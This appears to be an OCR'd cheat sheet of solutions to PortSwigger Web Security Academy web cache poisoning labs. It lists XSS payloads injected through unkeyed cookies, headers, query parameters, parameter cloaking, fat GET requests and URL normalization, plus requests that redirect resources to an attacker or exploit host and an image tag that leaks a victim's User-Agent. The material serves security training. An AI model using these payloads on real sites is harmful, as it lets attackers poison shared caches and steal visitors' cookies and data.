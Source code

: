 ### 2. Web cache poisoning with an unkeyed cookie
```
Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
```

### 3. Web cache poisoning with multiple headers
>On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write ```alert(document.cookie)``` script.
```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```

### 4. Targeted web cache poisoning using an unknown header
>HTML is allowed in comment section. Steal user-agent of victim with ```<img src="http://collaborator.com">``` payload.
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

### 5. Web cache poisoning via an unkeyed query string
```
/?search=kek'/><script>alert(1)</script>
Origin:x
```

### 6. Web cache poisoning via an unkeyed query parameter
```
/?utm_content=123'/><script>alert(1)</script>
```

### 7. Parameter cloaking
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```

### 8. Web cache poisoning via a fat GET request
```
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
```

### 9. URL normalization
```
/random"><script>alert(1)</script>
Cache this path and then deliver URL to the victim
```
